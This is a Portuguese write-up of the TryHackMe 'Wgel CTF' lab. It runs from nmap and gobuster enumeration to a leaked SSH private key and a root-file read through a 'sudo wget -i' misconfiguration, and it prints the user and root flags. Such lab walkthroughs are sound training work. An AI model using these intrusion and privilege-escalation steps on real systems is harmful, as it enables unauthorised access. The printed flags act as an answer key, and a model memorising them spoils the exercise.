






# TryHackMe — Wgel CTF

**Categoria:** Web Enumeration / Directory Listing / SSH Key Leak / Privilege Escalation via sudo wget (GTFOBins)
**Dificuldade:** Fácil

---

## 🎯 Objetivo

O alvo é uma máquina Linux (Ubuntu) rodando um servidor Apache na porta 80 e SSH na porta 22. O objetivo é enumerar a aplicação web em busca de diretórios e arquivos sensíveis expostos, localizar uma chave privada SSH vazada, utilizá-la para autenticar como um usuário do sistema, capturar a flag de usuário e, por fim, identificar e explorar uma regra de `sudo` mal configurada para escalar privilégios até root e capturar a flag final.

---

## 🔍 Passo 1 — Código-Fonte da Página: Pista sobre o Usuário

Inspecionando o código-fonte (`view-source:`) da página padrão do Apache em `http://10.64.182.232`, um comentário HTML deixado pelo desenvolvedor chamou atenção:



```html
<!-- Jessie don't forget to update the webiste -->
```

O comentário revelou o nome de um possível usuário do sistema: **`jessie`** — uma pista valiosa para os próximos passos, seja na escolha de wordlists, seja na tentativa de autenticação SSH.

---

## 🔍 Passo 2 — Reconhecimento com Nmap

```bash
nmap -sC -sV -Pn -sS -p22,80 10.64.182.232
```



```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Apenas os serviços **SSH** e **HTTP** estavam expostos, com uma versão relativamente antiga do Apache e do Ubuntu — um bom indicativo de que a via de entrada estaria na aplicação web.

---

## 🔍 Passo 3 — Enumeração de Diretórios com Gobuster

```bash
gobuster dir -u http://10.64.182.232/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x txt,php -t 80
```

```
.hta                  (Status: 403) [Size: 278]
.hta.php              (Status: 403) [Size: 278]
.htaccess.php         (Status: 403) [Size: 278]
.htaccess             (Status: 403) [Size: 278]
.hta.txt              (Status: 403) [Size: 278]
.htpasswd.txt         (Status: 403) [Size: 278]
.htpasswd             (Status: 403) [Size: 278]
.htpasswd.php         (Status: 403) [Size: 278]
.htaccess.txt         (Status: 403) [Size: 278]
index.html            (Status: 200) [Size: 11374]
server-status         (Status: 403) [Size: 278]
sitemap               (Status: 301) [Size: 316] [--> http://10.64.182.232/sitemap/]
```

Entre os resultados, o diretório **`/sitemap`** se destacou, retornando um redirecionamento (301) — um ponto de partida promissor para uma nova rodada de enumeração, desta vez dentro do próprio diretório.

---

## 🔍 Passo 4 — Gobuster Recursivo: Descobrindo `/sitemap/.ssh`

```bash
gobuster dir -u http://10.64.182.232/sitemap/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x txt,php -t 80
```


```
index.html   (Status: 200) [Size: 21080]
.ssh         (Status: 301) [Size: 321] [--> http://10.64.182.232/sitemap/.ssh/]
css          (Status: 301) [Size: 320] [--> http://10.64.182.232/sitemap/css/]
fonts        (Status: 301) [Size: 322] [--> http://10.64.182.232/sitemap/fonts/]
images       (Status: 301) [Size: 323] [--> http://10.64.182.232/sitemap/images/]
js           (Status: 301) [Size: 319] [--> http://10.64.182.232/sitemap/js/]
```

O subdiretório **`.ssh`** dentro de `/sitemap/` é um achado crítico — pastas `.ssh` costumam conter chaves de autenticação. Como o servidor tinha **directory listing habilitado**, era possível navegar diretamente para dentro dela pelo navegador.

---

## 🔍 Passo 5 — Directory Listing Expõe uma Chave Privada SSH

Acessando `http://10.64.182.232/sitemap/.ssh/` diretamente no navegador:



```
Index of /sitemap/.ssh

Name        Last modified        Size  Description
Parent Directory              -
id_rsa      2019-10-26 09:24   1.6K

Apache/2.4.18 (Ubuntu) Server at 10.64.182.232 Port 80
```

O arquivo **`id_rsa`** — uma chave privada SSH — estava publicamente acessível via HTTP, sem qualquer controle de acesso. O arquivo foi baixado diretamente para a máquina atacante.

---

## 🔍 Passo 6 — Ajustando Permissões e Conectando via SSH

Antes de utilizar a chave, foi necessário corrigir seu dono e permissões, já que o OpenSSH exige que chaves privadas não sejam legíveis por outros usuários:

```bash
sudo chown nistezy:nistezy id_rsa
chmod 600 id_rsa
ssh -i id_rsa jessie@10.64.182.232
```



```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

jessie@CorpOne:~$
```

A chave vazada correspondia exatamente ao usuário **`jessie`**, cujo nome havia sido descoberto no comentário HTML do Passo 1 — confirmando a autenticação sem necessidade de senha.

---

## 🔍 Passo 7 — Enumeração Local

Já autenticado, uma rápida enumeração do diretório pessoal revelou um arquivo de atalho suspeito:

```bash
ls
file examples.desktop
cat examples.desktop
```


```
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos

examples.desktop: UTF-8 Unicode text
```

O arquivo `examples.desktop` se mostrou apenas um atalho padrão do Ubuntu (sem relevância para o desafio) — um pequeno desvio antes de seguir para os diretórios de interesse real.

---

## 🚩 Passo 8 — Capturando a Flag de Usuário

Navegando até o diretório `Documents`:

```bash
cd Documents/
ls
cat user_flag.txt
```



```
user_flag.txt

057c67131c3d5e42dd5cd3075b198ff6
```

**Flag de usuário: `057c67131c3d5e42dd5cd3075b198ff6`**

---

## 🔍 Passo 9 — Enumeração de Sudo: `wget` como Root

```bash
sudo -l
```

```
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

O usuário `jessie` podia executar **`/usr/bin/wget` como root, sem senha** — um vetor clássico de escalação de privilégios catalogado no **GTFOBins**, já que o `wget` permite gravar arquivos arbitrários no sistema (e, com truques de URL, até vazar conteúdo de arquivos protegidos).

---

## 🚩 Passo 10 — Escalação de Privilégios e Root Flag

A primeira tentativa foi usar o `wget` para ler o conteúdo do arquivo de flag do root, usando a flag `-i` (que trata cada linha do arquivo apontado como uma URL a ser baixada):

```bash
sudo /usr/bin/wget --version
sudo /usr/bin/wget -i /root/root_flag.txt
```



```
GNU Wget 1.17.1 built on linux-gnu.

jessie@CorpOne:~/Documents$ sudo /usr/bin/wget -i /root/root_flag.txt
--2026-09-15 06:07:01--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address 'b1b968b37519ad1daa6408188649263d'
```

Como o `wget -i` interpreta cada linha do arquivo como uma URL, e o conteúdo da flag não era uma URL válida, o próprio `wget` tentou resolvê-la como um hostname — e, ao falhar, **exibiu o conteúdo exato da flag na mensagem de erro**, sem a necessidade de qualquer outro artifício.

**Flag de root: `b1b968b37519ad1daa6408188649263d`**

---

## 🚩 Flags

| Flag | Valor |
|------|-------|
| **User Flag** | `057c67131c3d5e42dd5cd3075b198ff6` |
| **Root Flag** | `b1b968b37519ad1daa6408188649263d` |

---

## 📝 Resumo da cadeia de investigação

1. **View-source da página padrão do Apache** → comentário HTML revela o usuário `jessie`
2. **`nmap`** → apenas portas 22 (SSH) e 80 (HTTP Apache/Ubuntu) abertas
3. **`gobuster` na raiz** → descobre o diretório `/sitemap` (redirecionamento 301)
4. **`gobuster` dentro de `/sitemap/`** → descobre o subdiretório `.ssh` com directory listing habilitado
5. **Directory listing em `/sitemap/.ssh/`** → expõe o arquivo `id_rsa` (chave privada SSH)
6. **`chown`/`chmod 600` + `ssh -i id_rsa jessie@...`** → autenticação bem-sucedida como `jessie`
7. **Enumeração local** → `examples.desktop` identificado como distração, sem relevância
8. **`cat ~/Documents/user_flag.txt`** → `057c67131c3d5e42dd5cd3075b198ff6`
9. **`sudo -l`** → `(root) NOPASSWD: /usr/bin/wget`
10. **`sudo wget -i /root/root_flag.txt`** → conteúdo da flag vazado via mensagem de erro de resolução de host: `b1b968b37519ad1daa6408188649263d`
